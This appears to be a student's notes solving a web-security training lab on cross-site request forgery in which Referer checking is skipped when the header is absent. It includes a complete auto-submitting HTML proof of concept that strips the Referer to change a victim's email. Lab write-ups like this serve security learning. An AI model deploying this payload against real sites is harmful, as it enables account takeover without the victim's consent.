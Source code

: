 # CSRF where Referer validation depends on header being present
- lab's email change functionality is vulnerable to CSRF
- attempts to block cross domain requests but has an insecure fallback
- credentials: wiener:peter
# Goal
- attempts to block cross domain requests but has an insecure fallback
# Solving The Lab
- log in and change email
- for CSRF To be possibel
  - Certain Action : change email
  - cookie based session handeling : session cookie
  - no unpredictablle request parameters :
- now try our same expoit from burp csrf poc but we got n error that says invalid refer header
- now we test for referer header
  - remove referer headeer and check the response : YES
- now the poc is like this
```
<html>

  <!-- CSRF PoC - generated by Burp Suite Professional -->

  <head>

    <meta name="referrer" content="no-referrer">

  </head> 

  <body>

    <form action="https://0a37003b04996c0682f3792900cb000c.web-security-academy.net/my-account/change-email" method="POST">

      <input type="hidden" name="email" value="tedsst&#64;mail&#46;com" />

      <input type="submit" value="Submit request" />

    </form>

    <script>

      history.pushState('', '', '/');

      document.forms[0].submit();

    </script>

  </body>

</html>
```
- lab is solved
